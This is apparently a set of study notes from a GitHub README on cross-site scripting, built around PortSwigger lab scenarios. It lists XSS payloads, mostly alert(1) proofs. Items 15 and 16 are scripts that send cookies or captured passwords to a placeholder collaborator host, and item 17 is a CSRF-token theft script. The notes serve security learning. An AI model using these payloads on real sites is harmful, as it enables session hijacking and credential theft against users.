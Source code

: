 # Cross-Site Scripting (XSS)

Cross-site scripting (XSS) is a vulnerability that enables attackers to inject malicious JavaScript into web pages. When executed inside a victim's browser, the attacker can compromise the user's interaction with the application.

---

## 📂 Types of XSS Attacks

### 1. Reflected XSS

- Occurs when the application immediately reflects unsanitized input from an HTTP request into the response.
- **Example:**
  ```html
  "><svg src=x onload=alert(1)>
  ```

### 2. Stored XSS

- Also known as **persistent XSS**, where malicious input is stored on the server and served to users in later HTTP responses.
- **Example:**
  ```html
  <><img src=1 onerror=alert(1)>
  ```

### 3. DOM-based XSS

- Involves the client-side JavaScript processing untrusted data and writing it to the DOM in an unsafe way.
- Example sinks: `document.write()`, `.innerHTML`, jQuery selectors, etc.

---

## 🔍 Example Scenarios

### 1.	DOM XSS in document.write sink using source location.search
­	 ![DOM XSS]('screenshot/1.DOM XSS in document.write sink using source location.search.png')
-­	document.write() writes raw HTML into the page.
­-      "><svg src=x onload=alert(1)>
### 2.	DOM XSS in document.write sink using source location.search inside a select element
­	 
-     ­	"></select><img%20src=1%20onerror=alert(1)>
### 3.	DOM XSS in innerHTML sink using source location.search
­	
­	-      javascript:alert(1) 
- ­	Here query is directly injects it into the DOM using .innerHTML
-     ­	<img src=1 onerror=alert(1)>
### 4.	DOM XSS in jQuery anchor href attribute sink using location.search source
­	 
-     ­	https://academy.net/feedback?returnPath=javascript:alert(1)
### 5.	DOM XSS in jQuery selector sink using a hashchange event
­	 
- ­	This code listens to the URL hash fragment (everything after #).
- ­	It extracts that hash and injects it directly into a jQuery selector using :contains(...).
- ­	If an attacker can control the hash, they can break out of the selector string and inject arbitrary code.
-     ­	<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>             -- deliever from another server or html 
### 6.	Reflected DOM XSS
­	 
- ­	This line parses the server’s JSON response using eval(), which allows attackers to execute arbitrary JavaScript code if they control or tamper with the response.
-     ­	\"-alert(1)}//
### 7.	Stored DOM XSS
­	 
-     ­	<><img src=1 onerror=alert(1)>
### 8.	Reflected XSS into attribute with angle brackets HTML-encoded
­	 
-     ­	"onmouseover="alert(1)
### 9.	Stored XSS into anchor href attribute with double quotes HTML-encoded
­	 
### 10.	Reflected XSS into a JavaScript string with single quote and backslash escaped
­	 
-     ­	</script><script>alert(1)</script>
### 11.	Reflected XSS into a JavaScript string with angle brackets HTML encoded
­	 
-     ­	'-alert(1)-'
### 12.	Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
­	 
-     ­	\'-alert(1)//
### 13.	Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
­	 
-     ­	http://aa.com/?%27-alert(1)-%27 or http://aa.com/?&apos;-alert(1)-&apos;  
### 14.	Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
­	 
-     ­	${alert(1)}
### 15.	Exploiting cross-site scripting to steal cookies
-     ­	<script>
      fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
      method: 'POST',
      mode: 'no-cors',
      body:document.cookie
      });
      </script>
### 16.	Exploiting cross-site scripting to capture passwords
-     ­<input name=username id=username>
      <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
      method:'POST',
      mode: 'no-cors',
      body:username.value+':'+this.value
      });">
### 17.	Exploiting XSS to bypass CSRF defences
-   	<script>
      var req = new XMLHttpRequest();
      req.onload = handleResponse;
      req.open('get','/my-account',true);
      req.send();
      function handleResponse() {
      var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
      var changeReq = new XMLHttpRequest();
      changeReq.open('post', '/my-account/change-email', true);
      changeReq.send('csrf='+token+'&email=test@test.com')
      };
      </script>
---
## 🔎 Response Headers to Look For:

- Content-Type: Should be text/html; charset=UTF-8 or appropriate type.
- Content-Security-Policy: Helps mitigate XSS by restricting sources.
- X-Content-Type-Options: Should be nosniff.
- X-XSS-Protection: Older browsers may honor this.
- Set-Cookie: Should include HttpOnly and Secure flags to protect cookies.
- Access-Control-Allow-Origin: If incorrectly configured, it could expose data cross-domain.

